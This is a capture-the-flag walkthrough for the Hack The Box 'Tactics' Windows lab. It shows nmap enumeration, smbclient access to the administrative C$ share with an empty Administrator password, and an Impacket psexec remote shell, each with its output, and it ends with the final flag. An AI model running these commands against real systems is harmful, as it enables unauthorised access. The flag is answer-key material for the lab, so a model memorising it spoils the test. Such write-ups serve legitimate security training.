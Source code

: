 # Tactics (Windows)

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

> -Pn

#### 2. What does the 3-letter acronym SMB stand for?

> Server Message Block

#### 3. What port does SMB use to operate at?

```sh
$ nmap -Pn 10.129.142.70
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 21:39 CET
Nmap scan report for 10.129.142.70
Host is up (0.032s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 49.31 seconds
```

> 445

#### 4. What command line argument do you give to `smbclient` to list available shares?

> -l

#### 5. What character at the end of a share name indicates it's an administrative share?

> $

#### 6. Which Administrative share is accessible on the box that allows users to view the whole file system?

```sh
$ smbclient -L 10.129.142.70 -U Administrator
Password for [WORKGROUP\Administrator]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

> C$

#### 7. What command can we use to download the files we find on the SMB Share?

> get

#### 8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

> PSexec.py

#### Submit root flag

- **Option 1**:

	```sh
	$ smbclient \\\\10.129.142.70\\C$ -U Administrator   
	Password for [WORKGROUP\Administrator]:
	Try "help" to get a list of possible commands.
	smb: \> get Users\Administrator\Desktop\flag.txt
	getting file \Users\Administrator\Desktop\flag.txt of size 32 as Users\Administrator\Desktop\flag.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
	```
	
	```sh
	cat Users\\Administrator\\Desktop\\flag.txt
	f751c19eda8f61ce81827e6930a1f40c
	```

- **Option 2** *([psexec](https://github.com/fortra/impacket))*:

	```sh
	$ psexec.py administrator@10.129.142.70
	Impacket v0.11.0 - Copyright 2023 Fortra
	
	Password:
	[*] Requesting shares on 10.129.142.70.....
	[*] Found writable share ADMIN$
	[*] Uploading file pmmeNEhX.exe
	[*] Opening SVCManager on 10.129.142.70.....
	[*] Creating service bPKk on 10.129.142.70.....
	[*] Starting service bPKk.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.107]
	(c) 2018 Microsoft Corporation. All rights reserved.
	
	C:\Windows\System32> type C:\Users\Administrator\Desktop\flag.txt
	f751c19eda8f61ce81827e6930a1f40c
	```

## Final Flag

> f751c19eda8f61ce81827e6930a1f40c

*Created by [bu19akov](https://github.com/bu19akov)*